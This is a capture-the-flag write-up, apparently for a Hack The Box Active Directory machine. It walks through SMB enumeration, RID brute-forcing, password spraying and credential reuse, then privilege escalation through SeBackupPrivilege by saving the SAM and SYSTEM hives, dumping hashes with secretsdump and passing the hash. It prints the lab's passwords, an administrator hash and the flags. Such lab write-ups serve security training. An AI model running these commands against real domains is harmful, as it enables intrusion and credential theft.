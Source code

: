﻿# ENUMERATION
---

## OPEN PORTS
---

| PORT | SERVICE |
| :----- | :------------ |
| 53/tcp | domain |
| 88/tcp | kerberos-sec |
| 135/tcp| msrpc |
| 139/tcp| netbios-ssn |
| 389/tcp| ldap |
| 445/tcp| microsoft-ds? |
| 464/tcp| kpasswd5? |
| 593/tcp| ncacn_http |
| 636/tcp| ssl/ldap |
| 3268/tcp| ldap |
| 3269/tcp| ssl/ldap |
| 5985/tcp| http |
Let's start reconnaissance.

# RECONNAISSANCE
---

We are facing a AD machine, let's start with some basic SMB enumeration:


![Pasted image 20250116135424.png](../../IMAGES/Pasted%20image%2020250116135424.png)

We can use netexec to perform a simple check on SMB and WINRM:

![Pasted image 20250116135538.png](../../IMAGES/Pasted%20image%2020250116135538.png)


We can attempt to log into SMB without the authentication process using `smbclient -NL IP`:

![Pasted image 20250116135823.png](../../IMAGES/Pasted%20image%2020250116135823.png)


We found interesting shares, let's check out `HR`:

![Pasted image 20250116135909.png](../../IMAGES/Pasted%20image%2020250116135909.png)


We find a `Notice from HR.txt` file, let's download it and check it:

![Pasted image 20250116140031.png](../../IMAGES/Pasted%20image%2020250116140031.png)

We got a default password, my guess would be we need to perform a basic brute force to enumerate users, this would be in the following way:

```ad-note
`netexec smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute`
```

We get the following output:

```
netexec smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
SMB 10.10.11.35 445 CICADA-DC [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.35 445 CICADA-DC [+] cicada.htb\anonymous: (Guest)
SMB 10.10.11.35 445 CICADA-DC 498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup) 
SMB 10.10.11.35 445 CICADA-DC 500: CICADA\Administrator (SidTypeUser)
SMB 10.10.11.35 445 CICADA-DC 501: CICADA\Guest (SidTypeUser)
SMB 10.10.11.35 445 CICADA-DC 502: CICADA\krbtgt (SidTypeUser)
SMB 10.10.11.35 445 CICADA-DC 512: CICADA\Domain Admins (SidTypeGroup)
SMB 10.10.11.35 445 CICADA-DC 513: CICADA\Domain Users (SidTypeGroup)
SMB 10.10.11.35 445 CICADA-DC 514: CICADA\Domain Guests (SidTypeGroup)
SMB 10.10.11.35 445 CICADA-DC 515: CICADA\Domain Computers (SidTypeGroup)
SMB 10.10.11.35 445 CICADA-DC 516: CICADA\Domain Controllers (SidTypeGroup)
SMB 10.10.11.35 445 CICADA-DC 517: CICADA\Cert Publishers (SidTypeAlias)
SMB 10.10.11.35 445 CICADA-DC 518: CICADA\Schema Admins (SidTypeGroup)
SMB 10.10.11.35 445 CICADA-DC 519: CICADA\Enterprise Admins (SidTypeGroup)
SMB 10.10.11.35 445 CICADA-DC 520: CICADA\Group Policy Creator Owners (SidTypeGroup) 
SMB 10.10.11.35 445 CICADA-DC 521: CICADA\Read-only Domain Controllers (SidTypeGroup) 
SMB 10.10.11.35 445 CICADA-DC 522: CICADA\Cloneable Domain Controllers (SidTypeGroup) 
SMB 10.10.11.35 445 CICADA-DC 525: CICADA\Protected Users (SidTypeGroup)
SMB 10.10.11.35 445 CICADA-DC 526: CICADA\Key Admins (SidTypeGroup)
SMB 10.10.11.35 445 CICADA-DC 527: CICADA\Enterprise Key Admins (SidTypeGroup) 
SMB 10.10.11.35 445 CICADA-DC 553: CICADA\RAS and IAS Servers (SidTypeAlias) 
SMB 10.10.11.35 445 CICADA-DC 571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias) 
SMB 10.10.11.35 445 CICADA-DC 572: CICADA\Denied RODC Password Replication Group (SidTypeAlias) 
SMB 10.10.11.35 445 CICADA-DC 1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB 10.10.11.35 445 CICADA-DC 1101: CICADA\DnsAdmins (SidTypeAlias)
SMB 10.10.11.35 445 CICADA-DC 1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB 10.10.11.35 445 CICADA-DC 1103: CICADA\Groups (SidTypeGroup)
SMB 10.10.11.35 445 CICADA-DC 1104: CICADA\john.smoulder (SidTypeUser)
SMB 10.10.11.35 445 CICADA-DC 1105: CICADA\sarah.dantelia (SidTypeUser)
SMB 10.10.11.35 445 CICADA-DC 1106: CICADA\michael.wrightson (SidTypeUser)
SMB 10.10.11.35 445 CICADA-DC 1108: CICADA\david.orelious (SidTypeUser)
SMB 10.10.11.35 445 CICADA-DC 1109: CICADA\Dev Support (SidTypeGroup)
SMB 10.10.11.35 445 CICADA-DC 1601: CICADA\emily.oscars (SidTypeUser)
```



# EXPLOITATION
---

Let's store all the usernames in a file and perform password spraying:


`nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`


![Pasted image 20250116140940.png](../../IMAGES/Pasted%20image%2020250116140940.png)



We found the user, these are the credentials:

```ad-note

`michael.wrightson`:`Cicada$M6Corpb*@Lp#nZp!8`

```


We can search for more privileged users:

![Pasted image 20250116141256.png](../../IMAGES/Pasted%20image%2020250116141256.png)

We found an account with the following credentials:

```ad-note
`david.orelious`:`aRt$Lp#7t*VQ!3`
```


Let's check the shares this account has access to:


![Pasted image 20250116141414.png](../../IMAGES/Pasted%20image%2020250116141414.png)

We can now read the `DEV` share, let's take a look at it:


![Pasted image 20250116141607.png](../../IMAGES/Pasted%20image%2020250116141607.png)

Found a `Backup_script.ps1` file, let's view the contents:



![Pasted image 20250116141718.png](../../IMAGES/Pasted%20image%2020250116141718.png)

Found more credentials: 

```ad-note

`emily.oscars`:`Q!3@Lp#M6b*7t*Vt`
```


Let's check if we are able to get a shell with those credentials using `evil-winrm`:

```ad-success
`evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'`



```


We can read `user.txt` and begin with privilege escalation:

```ad-note

User: `74b2598907182ac31cca52c79b20eb0a`
```

# PRIVILEGE ESCALATION
---

In order to begin with privilege escalation, we can start enumerating our privileges:


`whoami /priv`


![Pasted image 20250116142402.png](../../IMAGES/Pasted%20image%2020250116142402.png)

We can make use of `SeBackupPrivilege` in order to escalate our privileges, let's use the following PoC:

![Pasted image 20250116142600.png](../../IMAGES/Pasted%20image%2020250116142600.png)

![Pasted image 20250116142623.png](../../IMAGES/Pasted%20image%2020250116142623.png)


But, we can simplify the PoC in the following way:

```ad-summary
1. `reg save hklm\sam sam`
2. `reg save hklm\system system`
3. `download sam`
4. `download system`
5. `impacket-secretsdump LOCAL -sam sam -system sytem`


#### Output
----


And like that, we can get our admin hash.
```


```
impacket-secretsdump LOCAL -sam sam -system system
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

Let's log in using Pass the hash:

![Pasted image 20250116144347.png](../../IMAGES/Pasted%20image%2020250116144347.png)

And our root flag is the following: 

```ad-note

Root: `568e019774b66b875a024dfa590b84dc`
```

